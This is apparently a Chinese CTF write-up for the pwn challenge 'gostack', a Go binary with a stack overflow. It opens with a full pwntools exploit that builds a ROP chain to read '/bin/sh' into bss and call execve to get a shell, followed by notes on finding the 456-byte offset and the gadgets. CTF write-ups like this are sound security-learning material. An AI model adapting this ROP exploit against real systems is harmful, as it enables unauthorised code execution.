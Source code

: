 ```yaml
---
layout: post
title: "ciscngostack"
date: 2024-6-17
tags: [pwn]
comments: true
author: gbeefee

---
```


单纯的ROP，当时所有gadget都找齐了，因为缓冲区长度，没做出来。后面看其他wp知道go语言溢出会报错给返回地址

先放完整exp：

```python

from pwn import *

p = process("./gostack")

context.log_level = 'debug'

# ROPgadget
rdi = 0x4a18a5 # pop rdi ; pop r14 ; pop r13 ; pop r12 ; pop rbp ; pop rbx ; ret
rsi = 0x42138a # pop rsi ; ret
rax = 0x40f984 # pop rax ; ret
rdx = 0x4944ec # pop rdx ; ret
ret = 0x40201a # ret
syscall = 0x4616C9 # syscall ; ret
bss = 0x5633a0 

off = 456

# read调用
payload = b'\x00'*off + p64(0) \
        + p64(rax) + p64(0x0) \
        + p64(rdi) + p64(0) + p64(0)*5 \
        + p64(rsi) + p64(bss) \
        + p64(rdx) + p64(0x30) \
        + p64(syscall)
# 将addr处的字符串作为参数执行sys-execv
payload+= p64(rax) + p64(0x3b) \
        + p64(rdi) + p64(bss) + p64(0)*5 \
        + p64(rsi) + p64(0) \
        + p64(rdx) + p64(0) \
        + p64(syscall)

p.sendlineafter(b'Input your magic message :',payload)

p.recvuntil(b'Your magic message :')
p.sendline(b'/bin/sh\x00')

p.interactive()

```

保护，只开了NX，根据名字大概率是栈溢出

![](https://github.com/gbeefee/gbeefee.github.io/blob/main/images/ciscngo/01.png)

因为是用go语言编写的，ida几乎是看不到什么东西了，但是go报错会提示错误地址

![](https://github.com/gbeefee/gbeefee.github.io/blob/main/images/ciscngo/02.png)

算一下长度

![](https://github.com/gbeefee/gbeefee.github.io/blob/main/images/ciscngo/03.png)

然后就是获取gadget，ropper查一下，发现特别多，要的都有，就不贴了。